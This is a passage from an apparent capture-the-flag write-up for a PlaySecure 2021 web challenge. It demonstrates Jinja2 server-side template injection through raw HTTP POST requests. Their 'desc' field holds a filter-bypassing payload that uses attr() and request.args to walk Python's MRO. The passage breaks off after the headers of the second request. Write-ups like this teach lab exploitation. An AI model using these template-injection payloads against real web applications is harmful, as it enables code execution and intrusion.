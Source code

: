 At index 1 of the MRO (method resolution order), we have the `<class 'object'>`.

{% raw %}
```python
POST /generate?class=__class__&mro=__mro__ HTTP/1.1
Host: web.ps.ctf.ae:8882
Content-Length: 134
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://web.ps.ctf.ae:8882
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://web.ps.ctf.ae:8882/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

firstName=a&lastName=b&desc={% set string = "abc" %}{% set cls = string|attr(request.args.class) %}{{cls|attr(request.args.mro)|safe}}
```
{% endraw %}

**Retrieving The index 1 of MRO**

 We can use `__getitem__` method to access objects at different index of list.

![wc13](/assets/playsecure2021/wc13.png)

{% raw %}
```python
POST /generate?class=__class__&mro=__mro__&getitem=__getitem__ HTTP/1.1
Host: web.ps.ctf.ae:8882
Content-Length: 202
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://web.ps.ctf.ae:8882
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://web.ps.ctf.ae:8882/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

```